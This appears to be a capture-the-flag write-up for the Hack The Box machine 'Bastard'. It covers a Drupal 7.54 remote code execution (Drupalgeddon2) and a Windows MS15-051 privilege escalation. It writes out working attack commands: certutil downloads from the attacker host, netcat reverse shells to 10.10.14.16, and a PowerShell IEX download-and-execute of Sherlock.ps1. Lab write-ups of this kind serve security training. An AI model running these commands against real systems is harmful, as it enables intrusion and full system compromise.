









## Overview

Bastard is a Windows Server box running a content management system called Drupal. Drual 7.54 is vulnerable to CVE-2018-7600 which allows for remote code execution. Drupalgeddon was used to get the initial shell and kernel exploit (MS15-051) was used to escalate privileges to 'nt authority/system'.

## Enumeration

* Windows Server 2008 R2
* IIS 7.5
* php 5.3.28
* drupal 7.54

**Open Ports*

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.9 -oN /mnt/data/boxes/bastard/_full_tcp_nmap.txt
```

* 80/tcp - http
* 135/tcp - Microsft Windows RPC
* 49154 - Microsoft Windows RPC

## Steps (User)

Browsing to http://10.10.10.9 brought me to a drupal login page.



Checking http://10.10.10.9/robots.txt showed some interesting files including /CHANGELOG.txt which reveals the version of drupal that's running.



Running a search against searchsploit for "drupal 7" shows multiple results, 3 of which apply to the version running on the box.I decided to go with drupalgeddon2.




[drupalgeddon2](https://www.exploit-db.com/exploits/44449) is an exploit written in ruby which provides a root shell (if vulnerable). I made one modification to the script, "tryphpshell = false", because it appeared there was insufficient access to the web root.

```
./44449.rb http://10.10.10.9
```

> I had to use dos2unix to convert the line endings of the file because it was throwing errors (dos2unix 44449.rb)



The web shell is pretty slow so I created a reverse shell with netcat. I copied the windows version of netcat to my local working directory, started a python http server in prepration to transfer files, and started a netcat listener (rlwrap nc -lvnp 4200).

> Note: rlwrap fixes the arrow key functionality for windows reverse shells. 

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

I used certutil was used to copy netcat to the target box.

```
certutil -urlcache -split -f http://10.10.14.16/nc.exe
```

With netcat now on the box I ran the command to create a reverse shell and received a callback as 'nt authority\iusr'

```
nc.exe -e cmd 10.10.14.16 4200
```




## Steps (root/system)

Running systeminfo showed N/A for hotfixes so at this point I decided to run Sherlock and check for exploits.

> I attempted this with [Watson](https://github.com/rasta-mouse/Watson) but unfortunately I was not able to compile it for .Net 2.0.

Sherlock.ps1 was copied to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I then used Powershell Invoke-Expression (IEX) to pull sherlock.ps1 from my box and run it in memory, executing the Find-AllVuns function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.16/Sherlock.ps1');Find-AllVulns"
```



Reviewing the results, the box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server using certutil.

```
certutil -urlcache -split -f http://10.10.14.16/ms15-051x64.exe
```

I set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit providing my IP and port as parameters
```
ms15-051x64 -e cmd.exe 10.10.14.16 4201
```



A callback was received and I received a shell as nt authority/system


